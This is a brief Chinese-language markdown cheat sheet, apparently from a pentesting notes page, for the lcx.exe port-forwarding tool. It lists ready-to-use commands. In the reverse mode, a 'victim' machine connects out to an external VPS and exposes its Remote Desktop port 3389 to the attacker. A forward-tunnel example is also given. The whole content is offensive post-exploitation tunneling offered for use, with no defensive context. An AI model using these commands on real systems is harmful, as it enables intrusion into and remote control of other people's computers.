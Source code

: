#### lcx

| 方式 |                             命令                             |
| :--: | :----------------------------------------------------------: |
| 反向(外部vps) | `外部VPS：lcx.exe -listen 1111 2222`|
| 反向(受害者)|`受害者：lcx.exe -slave VPSip 1111 127.0.0.1 3389`|
|反向(使用方法)|访问本地2222端口即访问受害者3389端口|
| 正向 | `lcx.exe -tran 1111 2.2.2.2 8080`|
|正向(使用方法)|访问本地1111端口就是2.2.2.2的8080端口|